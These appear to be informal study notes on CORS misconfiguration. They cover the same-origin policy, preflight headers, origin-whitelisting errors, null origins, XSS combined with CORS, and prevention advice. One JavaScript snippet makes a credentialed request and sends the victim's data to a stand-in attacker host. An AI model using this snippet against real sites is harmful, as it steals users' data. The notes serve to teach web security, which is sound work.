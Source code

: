 CORS

SOP (same origin policy)

Same Origin:
Same domain, same protocol, same port
/!\ subdomains are not the same domain

Cookies are more relaxed, you can access it from a subdomain, even though it is another origin
	

Access-Control-Allow-Origin -> The Browser compares this value
From origin and the repsponse

Origin —> added by the browser

Access-Control-Allow-Credentials —> Cookies and Authorization Headers and client side certificates

Preflight:
Access-Control-Request-Method: PUT
Access-Control-Request-Headers: X-Special-Header

Preflight Response
Access-Control-Allow-Origin: somesite.com
Access-Control-Allow-Methods: OPTIONS, POST, PUT
Access-Control-Allow-Headers: X-Special-header
Access-Control-Allow-Credentials: true
Access-Control-Max-Age: 240

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};


CORS vs CSRF? 
—> CORS does not protect against CSRF
—> bad configs may increase the impact of the attack
—> there are ways to perform CSRF without CORS (HTML Form), CORS is js
—> Can use CORS to steal the CSRF token

Errors Whitelisting Origin
Normal-example.com

—> hack-normal-exammple.com
—> normal-example.com-hacked.com

Allowing null Origin
—> Use sandboxed iframe

XSS + CORS
—> if a vuln website is legitime to make CORS on a dst… an attacker can exploit the XSS on the vuln to access the legitime
Access Resources from Intranet

Attacker Js <— V —> Intra


HOW TO PREVENT? 
—> Configuration problems
—> Control the origin in the ACAO header
—> Avoid nul
—> avoir wildcards
	


